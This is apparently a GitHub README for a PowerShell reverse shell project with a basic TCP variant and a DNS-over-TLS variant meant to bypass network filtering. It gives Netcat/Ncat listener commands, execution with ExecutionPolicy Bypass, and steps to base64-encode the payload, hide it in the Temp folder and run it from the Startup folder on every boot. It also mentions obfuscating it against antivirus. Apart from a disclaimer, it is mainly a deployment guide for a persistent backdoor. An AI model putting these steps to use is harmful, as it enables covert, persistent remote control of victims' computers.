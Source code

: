# PowerShell Reverse Shell

This project is a learning exercise inspired by [Martin Sohn's PowerShell Reverse Shell](https://github.com/martinsohn/PowerShell-reverse-shell). It demonstrates two variations of a reverse shell implemented in PowerShell:

1. A **basic reverse shell**.
2. An **advanced reverse shell** utilizing DNS-over-TLS (DoT) for a more secure connection with the server.

## Disclaimer

**Warning:** This project is strictly for educational purposes. Unauthorized use against systems without explicit permission is illegal and unethical. Always obtain proper authorization before deploying this tool.

## Features

### Basic Reverse Shell

- Establishes a reverse TCP connection to a specified IP and port.
- Executes commands from the remote server and returns output.

### Secure Reverse Shell (DNS-over-TLS)

- Utilizes DNS-over-TLS (DoT) for a more secure communication channel.
- Hides traffic in DNS queries to bypass some network-level filtering.

## Requirements

- **Operating System:** Windows with PowerShell installed.
- **Network:** Ability to connect to the remote server.
- For the DNS-over-TLS version:
  - DNS server configured for DoT communication.

## Usage

### Basic Reverse Shell

1. **Set Up the Listener on the Remote Server:**

   - Use a tool like Netcat to listen for incoming connections:

     ```bash
     nc -lvnp [PORT]
     ```

   - Replace `[PORT]` with the port number you intend to use.

2. **Configure the Script:**

   - Set the `$remoteIP` and `$remotePort` variables in the script:

     ```powershell
     $remoteIP = "[REMOTE_IP]"
     $remotePort = [PORT]
     ```

   - Replace `[REMOTE_IP]` and `[PORT]` with the appropriate values.

3. **Execute the Script:**

   - Run the PowerShell script:

     ```powershell
     powershell.exe -ExecutionPolicy Bypass -File .\powershell-reverseshell.ps1
     ```

### Secure Reverse Shell (DNS-over-TLS)

1. **Set Up a Secure Listener:**

   - Use Ncat (from the Nmap suite) to listen for incoming SSL connections (You can also use netcat which has an unmodifiable buffer of 4096 bytes):

     ```bash
     ncat --ssl -lnvp [PORT_NUMBER]
     ```

   - Replace `[PORT_NUMBER]` with the port number you intend to use.

2. **Execute the Script:**

   - Run the secure reverse shell:

     ```powershell
     powershell.exe -ExecutionPolicy Bypass -File .\powershell-reverseshell-dns-tls.ps1
     ```

### Make reverseshell run on every startup

1. **Encrypt your reverseshell:**

    - *Make Sure You Entered the IP and Port number first*
    
    ```powershell
    $c = get-content -path .\powershell-reverseshell-dns-tls.ps1
    $bytes = [system.text.encoding]::unicode.getbytes($c)
    $encrypt = [convert]::tobase64string($bytes)
    set-content -path .\powershell-encrypted.bin -value $encrypt
    ```
    - *encrypt the decoder.ps1 file the same way*

2. **Store them in User's Temp Directory:**

    ```bash
    %USERPROFILE%\AppData\Local\Temp
    ```

3. **Store runner.cmd file in:**

    ```bash
    %APPDATA%\\Microsoft\\Windows\\Start Menu\\Programs\\Startup
    ```


## Security Considerations

- **Antivirus Detection:** Both scripts may trigger antivirus software. Adjustments or obfuscations might be necessary for testing in controlled environments.
- **Ethical Use:** Deploy these tools only on systems where you have explicit permission for penetration testing.

## Acknowledgments

This project is inspired by [Martin Sohn's PowerShell Reverse Shell](https://github.com/martinsohn/PowerShell-reverse-shell). Special thanks to the original creator for providing a solid foundation.

## License

This project is licensed under the [GPL-3.0 License](LICENSE).
